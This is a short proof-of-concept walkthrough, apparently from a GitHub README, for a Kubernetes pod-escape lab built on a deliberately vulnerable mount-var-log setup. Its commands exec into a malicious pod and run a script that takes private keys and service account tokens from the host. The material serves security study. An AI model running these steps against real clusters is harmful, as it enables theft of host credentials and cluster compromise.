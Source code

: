 ## Proof of Concept

To perform the Proof of Concept, please follow the below steps:

1. Basic environment setup for Docker and K8+. Execute the following commands inside the metarget folder.<br/>
`./metarget gadget install docker --version 18.03.1`
`./metarget gadget install k8s --version 1.16.5 --domestic`
2. Prepare the vulnerable environment using the following command. <br/>
`./metarget cnv install mount-var-log`

3. Clone the repository which contains the configuration file, `escraper.yml`, for malicious Pod.
`git clone https://github.com/danielsagi/kube-pod-escape.git`
4. Exec into the pod. The pod contains built-in exploit code which will read any files from the host.
`kubectl exec -it mount-var-log -n metarget bash`
5. Execute the `find_sensitive_files.py` script which downloads private key files and kubernetes service account tokens from the host.
`python find_sensitive_files.py`
6. To verify the files are downloaded in the pod, check the files in the following directories.
`cd /root/exploit/host_files/tokens`
`cd /root/exploit/host_files/private_keys`


